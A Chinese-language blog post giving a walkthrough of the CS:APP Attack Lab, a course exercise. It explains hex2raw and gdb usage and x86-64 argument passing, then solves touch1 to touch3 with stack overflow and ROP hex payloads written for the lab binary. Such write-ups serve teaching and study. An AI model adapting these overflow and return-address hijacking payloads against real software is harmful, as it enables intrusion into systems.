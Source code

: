 ```yaml
---
layout:     post
title:      csapp-attacklab
subtitle:   csapp-lab
date:       2020-07-28
author:     X1ng
header-img: csapp_lab3.jpg
catalog: true
tags:

- lab
- csapp




---
```


开始没有pwn的工具不知所措，参考了别的师傅的博客才知道给出的文件使用方法

我在2020年7月23日到28日下载的实验文件里给出的ctarget和rtarget是两个一样的文件，所以相当于只完成了半个实验。。

## 实验辅助

hex2raw的使用说明

要求输入是一个十六进制格式的字符串，用两个十六进制数字表示一个字节值，字节值之间以空白符（空格或新行）分隔，注意使用小端法字节序。

将攻击字符串存入文件中，如attack.txt

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6s6t1shjj30gw08at8s.jpg)

然后用下述方法调用：

1.`cat attack.txt | ./hex2raw | ./ctarget`

2.`./hex2raw <attack.txt> attackraw.txt`

`./ctarget < attackraw.txt`或 `./ctarget -i attackraw.txt`

3.结合gdb使用

./hex2raw <attack.txt> attackraw.txt

gdb ctarget

(gdb) run < attackraw.txt 或 (gdb) run -i attackraw.txt

生成字节代码操作

编写一个汇编文件：

vim attack.s

汇编和反汇编此文件：

gcc -c attack.s

objdump -d attack.o > attack.d

由此推出这段代码的字节序列。

涉及的gdb命令

(gdb) r run的简写，运行被调试的程序。若有断点，则程序暂停在第一个可用断点处。

(gdb) c continue的简写，继续执行被调试程序，直至下一个断点或程序结束。

(gdb) print <指定变量> 显示指定变量的值。

(gdb) break *<代码地址> 设置断点。

(gdb) x/<n/f/u> <addr> examine的简写，查看内存地址中的值。

————————————————

版权声明：CSDN博主「_Silvia」的原创文章，原文链接：https://blog.csdn.net/qq_36894564/article/details/72863319

## 前置知识

需要了解函数调用、栈溢出相关知识

32位下函数调用——[手把手教你栈溢出从入门到放弃](https://zhuanlan.zhihu.com/p/25816426)

64位函数调用的传参方式不同于32位

当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9

当参数为7个以上时，前6个同上，剩下的参数与32位一样从右往左压栈

如调用H(a, b, c, d, e, f, g, h);

a->%rdi, b->%rsi, c->%rdx, d->%rcx, e->%r8, f->%r9		h->8(%esp)		g->(%esp)

再call H

## attacklab

相关函数逻辑就是提供一个Cookie再输入通过getbuf()往栈中输入一个字符串，存在溢出漏洞，可以控制`ret`返回地址

需要加`-q`参数运行ctarget程序

### touch1

在getbuf()中可以看到`sub rsp,0x28`可知栈长度为0x28

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6rugo2v6j314u0cqdk7.jpg)

输入字符串"aaaaaaaa"，可以看到输入字符串的内存单元正好时rsp指向的内存单元

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6skh2m80j319s0ictdq.jpg)

所以只要输入`'a'*0x28+(address)`即可控制程序流，填充为touch1()地址，即可执行touch1()

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6sk2bii1j31n60h4gol.jpg)

payload:

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00		//touch1
```

（小端序）

pass

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6skrwyp2j31ea09mtbq.jpg)

### touch2

找到touch2的地址

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6ssfzyk4j31ms0t4jy0.jpg)

可以看到

`cmp     edi, cs:cookie`

即 将第一个参数（rdi中的数据）与cookie比较

用ROPgadget搜索gadgets

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh72vhbv1rj315y0u0qdf.jpg)

找到`0x000000000040141b	:	pop rdi	;	ret`

payload:

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00		//pop rdi;ret;
fa 97 b9 59 00 00 00 00		//cookie
ec 17 40 00 00 00 00 00		//touch2
```

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh738pd9qwj31ee0a8dj8.jpg)

### touch3

有点迷，跳转touch3后各种操作，最后发现就是比较 调用touch3的参数作为地址的字符串 与cookie（总觉得是个非预期）

若payload为

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00
00 00 00 00 00 00 00 00
fa 18 40 00 00 00 00 00
```

则

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh72xssb74j316o0h40zb.jpg)

然后Segmentation fault

所以payload:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00   //pop rdi;ret;
23 dc 61 55 00 00 00 00   //&cookie
fa 18 40 00 00 00 00 00   //touch3
```

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh738h1nsnj31400ge457.jpg)

pass

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh7388kbzoj31e80a8whw.jpg)
